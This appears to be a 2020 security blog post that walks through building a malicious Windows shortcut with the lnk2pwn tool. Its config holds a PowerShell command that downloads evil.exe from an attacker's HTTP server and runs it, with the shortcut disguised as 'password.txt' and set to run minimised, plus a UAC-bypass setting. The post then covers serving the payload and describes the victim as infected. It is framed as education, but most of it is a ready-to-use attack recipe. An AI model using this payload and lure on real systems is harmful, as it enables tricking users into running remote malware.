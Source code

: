 ```yaml
---
title: "Create malicious Shortcut .LNK"
date: "2020-10-03"
layout: single
tags:
- Fileless
categories:
- Blog-post
---
```


Hey, everyone. Let's create some fileless malware using shortcut (.lnk). 

Don't do bad things haa, Allah marah! This is for education and research purpose only.

## Malicious Shortcut(.lnk) Generator

So, a script name [Lnk2Pwn](https://github.com/tommelo/lnk2pwn) made by Tommello will help us generate malicious shortcut .lnk

For installation, lnk2pwn requires **python2.7** and **wine** to create a Windows shortcut:

    sudo apt-get install python2.7
    sudo apt-get install wine

You can get the lastest version by clonning this repository:

    git clone https://github.com/tommelo/lnk2pwn.git

In lnk2pwn directory, edit config.json. The project contains a template file called config.json that defines the attributes of the .lnk file:

    {
        "shortcut": {
            "target_path": "C:\\Windows\\System32\\cmd.exe",
            "working_dir": "C:\\Windows\\System32",
            "arguments": "/c powershell -NoLogo -Command "$webClient = new-object System.Net.WebClient; $webClient.DownloadFile('http://192.168.83.128:8000/evil.exe', '%temp%\evil.exe'); Start-Process -Filepath '%temp%\evil.exe'"",
            "icon_path": "C:\\Windows\\System32\\notepad.exe",
            "icon_index": null,
            "window_style": "MINIMIZED",
            "description": "Password",
            "fake_extension": ".txt",
            "file_name_prefix": "password"
        },
    
        "elevated_uac": {
            "file_name": "uac_bypass.vbs",
            "cmd": "cmd.exe"
        }
    }

So, basically the `arguments` part will execute Powershell (PS) command that tell PS to download `evil.exe` and put the `evil.exe` into temp (%temp%) folder. After semicolon, we tell the PS to start/execute our `evil.exe`.

Now, run this line to generate our malicious .lnk:

    python lnk2pwn.py -c config.json -o [destination]

![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/mallnk/1.PNG)

Our lnk file now has been generated. Let's put this malicious .lnk file into our target machine.

![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/mallnk/2.PNG)

Looks legit right?

## Open our HTTP server
Setup our HTTP server so that evil.exe can be download from HTTP link we give in our PS line (`http://192.168.83.128:8000/evil.exe`)

    python -m SimpleHTTPServer

![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/mallnk/3.PNG)

## Pwned by a Shortcut

So, if a user click the `password.txt`(.lnk), they will be infected. Let's wait for a couple of seconds for our evil.exe to be downloaded. And Hooray 🎉. Our `evil.exe` is executed!

![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/mallnk/3.gif)
